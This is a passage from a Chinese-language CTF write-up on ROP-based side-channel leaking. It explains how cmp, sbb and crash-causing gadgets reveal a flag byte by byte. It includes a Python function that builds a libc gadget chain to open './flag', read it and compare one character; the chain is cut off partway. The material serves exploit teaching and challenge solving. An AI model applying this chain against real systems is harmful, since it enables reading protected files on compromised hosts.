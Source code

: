 侧信道
---

有了返回地址后，而且可以任意地址写，就要考虑如何写ROP来进行侧信道了

如果是shellcode的侧信道，那还是比较容易的，网上也有很多模板，但是对于ROP的侧信道，需要有一定的技巧

主要是利用了一些magic\_gadget，这里的mg1就是一个cmp比较，**这种比较后面必须跟着分支指令，比如je,jne这样才能判断比较是否相等**，这里不相等会jne 0x1925c5。这里的指令是sbb eax, eax ; sbb eax, 0FFFFFFFFh，也就是rax会变成一个负的0FFFFFFFFh，**后面肯定要接一个read函数来进行阻塞**

但是会发现这样的话**不管cmp比较是否相等，都会执行read，无法区分**，所以有了mg2。mg2指令是mov qword ptr \[rax\], -1; xor eax, eax; ret;同时还有个gadget是add rax, rdi; ret;如果我们先让rdi为libc的bss段。

**如果cmp结果相等，那么rax可能就是一个0x31这种很小的数，mov qword ptr \[rax\], -1;不会报错。但是如果cmp不相等，那么rax最终是libc\_bss-0xFFFFFFFF，这显然是一个非法地址，然后mov qword ptr \[rax\], -1会直接让程序崩溃，这就满足了我们想要侧信道的要求。**

```python
def write_rop(ch,idx):
    libc.address=0
    mg1 = libc.address+0x000000000019244e#: cmp al, byte ptr [rsi - 1]; jne 0x1925c5; xor eax, eax; ret; 
    mg2 =  0x00000000001142bb#: mov qword ptr [rax], -1; xor eax, eax; ret;
    add_rax_rdi = 0x00000000000a8978#: add rax, rdi; ret; 
    mov_rdxaddr_rax = libc.address + 0x0000000000034550#: mov qword ptr [rdx], rax; ret; 
    pop_rdx = libc.address + 0x0000000000142c92#: pop rdx; ret; 
    pop_rax = libc.address + 0x0000000000036174#: pop rax; ret; 
    pop_rdi = libc.address + 0x0000000000023b6a#: pop rdi; ret; 
    pop_rsi = libc.address + 0x000000000002601f#: pop rsi; ret; 
    pop_rdx = libc.address + 0x0000000000142c92#: pop rdx; ret; 
    bss=libc.address+0x1ED7A0+0x800

    #open
    write_func(pop_rdx)
    write_func(bss)
    write_func(pop_rax)
    write_other(0x67616c662f2e)
    write_func(mov_rdxaddr_rax)
    write_func(pop_rdi)
    write_func(bss)
    write_func(pop_rsi)
    write_other(0)
    write_func(pop_rdx)
    write_other(0)
    write_func(pop_rax)
    write_other(2)
    write_func(0x47656) #syscall ; pop rbp ; ret
    write_other(0)

    #read
    write_func(pop_rdi)
    write_other(3)
    write_func(pop_rsi)
    write_func(bss)
    write_func(pop_rdx)
    write_other(0x100)
    write_func(libc.sym['read'])

    #cmp
    write_func(pop_rax)
    write_other(ch)
    write_func(pop_rsi)
    write_func(bss+ 1 +idx)
    write_func(mg1)

    write_func(pop_rdi)
    write_func(bss)
```